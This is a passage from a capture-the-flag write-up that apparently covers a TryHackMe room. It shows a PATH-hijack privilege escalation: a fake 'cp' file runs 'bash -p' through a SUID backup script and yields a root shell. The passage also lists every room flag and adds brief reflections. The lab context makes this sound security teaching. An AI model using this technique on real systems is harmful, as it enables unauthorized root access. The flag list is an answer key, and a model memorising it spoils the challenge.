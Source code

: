 - OKI, so we will have to manipulate that `cp` file. This is pretty straightforward, we create a new file named `cp`, change it to executable, add a one-liner `bash -p` and then add that file directory to `PATH`.
  After everything is done just run the `backup` script and you'll be root.

  ```
  archangel@ubuntu:~/secret$ echo 'bash -p' > cp
  echo 'bash -p' > cp
  
  archangel@ubuntu:~/secret$ chmod +x cp
  chmod +x cp
  
  archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
  export PATH=/home/archangel/secret:$PATH
  
  archangel@ubuntu:~/secret$ ./backup
  ./backup
  whoami
  root
  cat /root/root.txt
  thm{https://www.youtube.com/watch?v=dQw4w9WgXcQ} hehexd
  ```
  
- This one was worth the hustle, it took me more than an hour to get first reverse shell, everything after that was pretty standard. Enjoy the CLASSIC while hacking, cya! 💋

---

## 🏁 Flags

- **Flag 1**: `thm{f0und_th3_r1ght_h0st_n4m3}`
- **Flag 2**: `thm{explo1t1ng_lf1}`
- **User Flag**: `thm{lf1_t0_rc3_1s_tr1cky}`
- **User Flag 2**: `thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}`
- **Root Flag**: `thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Getting a first reverse shell.`

- What did I learn?
  `A lot, LFI, reverse shell with Burp, new privilege escalation kinda.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
